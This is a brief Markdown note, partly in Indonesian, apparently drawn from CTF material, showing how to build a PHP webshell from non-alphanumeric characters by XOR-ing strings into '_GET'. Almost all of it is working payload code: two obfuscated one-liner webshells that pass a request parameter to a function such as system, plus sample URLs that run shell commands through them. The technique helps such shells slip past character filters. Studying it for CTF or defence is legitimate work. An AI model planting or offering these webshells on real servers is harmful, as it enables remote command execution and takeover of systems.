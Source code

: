 # Webshell Without Alphanumeric
PHP without alphanumeric construction Webshell

```
$_="`{{{"^"?<>/"; adalah $_="_GET"
${$_}[$_] adalah $_GET['_GET']
(${$_}[_._._._]) adalah $_GET['____']
```
Simple nya akan menjadi `<?php $_GET['_GET']( $_GET['____']);`

https://site.com/shell.php?_GET=system&____=command

```
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
// $_GET[_]($_GET[__]);

```
https://site.com/shell2.php?_=system&__=command

# Refrensi 
1. Soal CTF cyberjawara 2019
2. http://programmersought.com/article/7881105401/
3. https://github.com/RevID-CTF/CTF/blob/master/CJ_R.O.P.pdf
4. https://gist.github.com/mvisat/03592a5ab0743cd43c2aa65bf45fef21
